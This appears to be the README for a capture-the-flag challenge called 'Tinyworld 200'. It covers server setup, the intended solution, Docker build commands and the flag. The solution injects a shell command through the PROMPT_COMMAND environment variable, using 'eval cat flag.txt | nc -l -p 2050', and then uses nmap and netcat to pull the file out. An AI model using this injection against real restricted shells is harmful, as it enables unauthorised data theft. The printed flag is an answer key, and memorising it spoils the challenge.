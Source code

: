 # Tinyworld 200

In this challenge, competitors are provided with an anonymous SSH to a server under the username challenge@addr -p 2222 where when they log in they are presented with a prompt that will let them run any 5 character command with no special characters and set some environment variables, but not let them receive any output back from any of their commands.

As a note, make sure to setup the openstack firewall to ONLY allow 2000 - 2100 and 2222 in from competitors, this is in order to make the nmap scan that the users have to perform more obvious as to which ports are available for them to use.

## Solution

First off the competitors will need to find an open port that they can open netcat on

    nmap -Pn -d -d 192.168.108.167

Run a server on your machine (replace localhost with the IP of the host where tinyworld.py is located)

    while true; do nc localhost 2050; done

ssh into the challenge box and run the following commands

    Give me an env key: PROMPT_COMMAND
    Give me an env value: eval cat flag.txt | nc -l -p 2050
    Give me a 5 char cmd: asdaa

The challenge box will then bind to port 2050 and brodcast the key for a short period of time and then exit. Note that competitors will need to perform a port scan in order to figure out which ports are actually available to bind to.

## Building/Running the Challenge

    docker build -t tinyworld-200 .

    docker run -d -p 2222:22 -p 2000-2100:2000-2100 --read-only --tmpfs /tmp tinyworld-200

## Flag

fba1b558b6b2df0c04670d8348e51a99b426f743